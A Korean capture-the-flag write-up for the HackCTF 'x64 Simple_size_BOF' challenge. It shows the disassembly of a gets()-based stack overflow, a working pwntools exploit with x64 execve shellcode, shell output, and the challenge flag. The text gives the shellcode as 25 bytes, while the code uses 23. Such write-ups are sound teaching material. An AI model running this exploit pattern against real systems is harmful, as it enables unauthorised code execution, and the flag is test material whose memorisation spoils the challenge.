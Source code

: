 # x64 Simple\_size\_BOF

---


`main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400636 <+0>:	push   rbp
   0x0000000000400637 <+1>:	mov    rbp,rsp
   0x000000000040063a <+4>:	sub    rsp,0x6d30
   0x0000000000400641 <+11>:	mov    rax,QWORD PTR [rip+0x200a08]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x0000000000400648 <+18>:	mov    ecx,0x0
   0x000000000040064d <+23>:	mov    edx,0x2
   0x0000000000400652 <+28>:	mov    esi,0x0
   0x0000000000400657 <+33>:	mov    rdi,rax
   0x000000000040065a <+36>:	call   0x400520 <setvbuf@plt>
   0x000000000040065f <+41>:	mov    edi,0x400728
   0x0000000000400664 <+46>:	call   0x4004e0 <puts@plt>
   0x0000000000400669 <+51>:	lea    rax,[rbp-0x6d30]
   0x0000000000400670 <+58>:	mov    rsi,rax
   0x0000000000400673 <+61>:	mov    edi,0x40074e
   0x0000000000400678 <+66>:	mov    eax,0x0
   0x000000000040067d <+71>:	call   0x4004f0 <printf@plt>
   0x0000000000400682 <+76>:	lea    rax,[rbp-0x6d30]
   0x0000000000400689 <+83>:	mov    rdi,rax
   0x000000000040068c <+86>:	mov    eax,0x0
   0x0000000000400691 <+91>:	call   0x400510 <gets@plt>
   0x0000000000400696 <+96>:	mov    eax,0x0
   0x000000000040069b <+101>:	leave  
   0x000000000040069c <+102>:	ret    
End of assembler dump.
```
```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char v4; // [rsp+0h] [rbp-6D30h]
    
      setvbuf(_bss_start, 0LL, 2, 0LL);
      puts(&s);
      printf("buf: %p\n", &v4);
      gets(&v4);
      return 0;
    }
```
이 문제에서는 buf의 주소를 준다. 때문에 buf와 `main()` ret address와의 거리를 구해서 ret address를 buf로 조정하고 buf에 shellcode를 담으면 쉽게 풀 수 있다.

`main()+76`을 보면 rbp-0x6d30에 문자열을 입력 받고 있다. 이곳이 buf의 주소다. 때문에 0x6d30에 SFP(8bytes)를 더한 27960만큼 채운 후 buf의 주소를 적어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[shellcode 25bytes] + [dummy 27935bytes] + [buf_address]**

다음과 같은 익스 코드를 통해서 익스할 수 있었다.

```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil('buf: ')

string=p.recv(14)
buf_address=int(string,16)

log.info(hex(buf_address))

payload='\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
payload+='A'*27937
payload+=p64(buf_address)

p.sendline(payload)

p.interactive()
```

이때 x86의 shellcode와 x64의 shellcode는 다르다는 점을 유의해야 한다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/6.x64_Simple_size_BOF$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3005: Done
    [*] 0x7fff06fe78d0
    [*] Switching to interactive mode
    
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}



**flag: HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}**
